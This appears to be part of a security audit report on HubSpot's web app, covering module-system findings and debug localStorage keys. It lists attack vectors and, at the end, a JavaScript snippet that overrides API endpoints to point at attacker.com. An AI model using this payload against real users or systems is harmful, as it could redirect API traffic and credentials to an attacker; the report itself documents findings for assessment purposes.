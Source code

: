 
## FINDING #5: Module System Architecture (INFORMATIONAL)

### Original Finding (Track B)
- **Severity:** Low (Informational)
- **Claim:** Internal BPM package manager, module loading patterns

### Validation Results

**Status:** ✅ **CONFIRMED**

**Evidence:**
- window.hubspot object confirmed in live app
- Module system inferred from object presence
- Matches Track B static analysis

**Confidence Level:** **MEDIUM** ⭐⭐

**Peer Review Assessment:**
**CONFIRMED** - Informational finding validated

---

## NEW FINDINGS (Discovered During Validation)

### NEW-1: HTTP_FAILURE_INJECTION localStorage Key

**Severity:** Medium
**Source:** Live app validation
**Description:** localStorage key `HTTP_FAILURE_INJECTION` suggests debugging infrastructure for simulating HTTP failures

**Attack Vector:**
- Set flag to true and monitor for error handling bypass
- Check if failures expose internal error messages
- Test for different injection types

**Confidence:** HIGH (found in live code)

---

### NEW-2: LOCAL_API_OVERRIDES localStorage Key

**Severity:** High
**Source:** Live app validation
**Description:** localStorage key `LOCAL_API_OVERRIDES` suggests ability to override API endpoints

**Attack Vector:**
- Inject malicious API endpoints
- Test for SSRF via endpoint override
- Check if overrides bypass authentication

**Recommended Test:**
```javascript
localStorage.setItem('LOCAL_API_OVERRIDES', JSON.stringify({
  'api.hubspot.com': 'attacker.com',
  '/graphql': 'https://attacker.com/graphql'
}));
location.reload();
```

